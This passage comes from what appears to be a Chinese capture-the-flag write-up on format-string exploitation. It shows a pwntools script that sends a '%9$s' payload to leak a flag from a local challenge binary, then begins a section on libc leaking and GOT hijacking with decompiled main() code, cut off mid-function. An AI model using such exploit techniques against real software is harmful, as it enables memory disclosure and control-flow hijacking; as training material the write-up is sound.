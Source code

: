 exp:

```plain
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

io=process('./pwn')
elf=ELF('./pwn')
io.recvuntil(b"flag")
payload="%9$s"
io.sendline(payload)
io.interactive()
```

[![](assets/1701612281-3cfa53227669b0c21619c855f5846ae6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223829-c33a66d6-2578-1.png)

#### fmstr3

##### libc泄露&劫持GOT

前期准备工作

[![](assets/1701612281-dce68457c17542b71cb7009ff5aa625b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223833-c59f9c70-2578-1.png)

IDA静态分析一下

**main()**

```plain
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char s1; // [esp+14h] [ebp-2Ch]
  int v5; // [esp+3Ch] [ebp-4h]

  setbuf(stdout, 0);
  ask_username(&s1);
  ask_password(&s1);
  while ( 1 )
  {
    while ( 1 )
    {
      print_prompt();
      v3 = get_command();
      v5 = v3;
      if ( v3 != 2 )
```
